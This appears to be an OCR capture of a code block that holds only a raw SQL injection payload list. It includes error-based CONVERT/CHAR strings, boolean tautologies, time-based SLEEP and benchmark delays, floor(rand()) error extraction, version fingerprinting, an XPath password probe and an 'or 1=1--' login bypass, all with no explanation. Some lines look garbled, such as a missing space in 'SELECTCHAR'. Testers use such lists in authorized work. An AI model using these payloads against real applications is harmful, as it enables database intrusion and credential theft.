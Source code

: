 ```
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))#
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))-- 
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))#
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))-- 
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))#
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))-- 
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))-- 
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))-- 
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))-- 
AND 7300=7300 AND 'pKlZ'='pKlY
AND 7300=7300 AND ('pKlZ'='pKlY
AND 7300=7300 AND 'pKlZ'='pKlZ
AND 7300=7300 AND ('pKlZ'='pKlZ
AND 7506=9091 AND ('5913=5913
AND 7506=9091 AND (5913=5913
%' AND 8310=8310 AND '%'='
%' AND 8310=8311 AND '%'='
' and a='a
AND false
' AND id IS NULL; --
' AND MID(VERSION(),1,1) = '5';
' and 'one'='one
' and 'one'='one–
AND (SELECT 4523 FROM(SELECT COUNT(*),CONCAT(0x716a7a6a71,(SELECT (ELT(4523=4523,1))),0x71706a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)
AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)#
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)--
AND (SELECT * FROM (SELECT(SLEEP(5)))YjoC) AND '%'='
and (select substring(@@version,1,1))='M'
and (select substring(@@version,1,1))='X'
and (select substring(@@version,2,1))='i'
and (select substring(@@version,2,1))='y'
and (select substring(@@version,3,1))='c'
and (select substring(@@version,3,1))='S'
and (select substring(@@version,3,1))='X'
AnD SLEEP(5)
AnD SLEEP(5)#
AnD SLEEP(5)--
' AnD SLEEP(5) ANd '1
' and substring(password/text(),1,1)='7
AND true
a' or 1=1--	' for password
AS INJECTX WHERE 1=1 AND 1=0
AS INJECTX WHERE 1=1 AND 1=0#
AS INJECTX WHERE 1=1 AND 1=0--
AS INJECTX WHERE 1=1 AND 1=1
AS INJECTX WHERE 1=1 AND 1=1#
AS INJECTX WHERE 1=1 AND 1=1--
`
benchmark(10000000,MD5(1))#
+benchmark(3200,SHA1(1))+'
benchmark(50000000,MD5(1))
```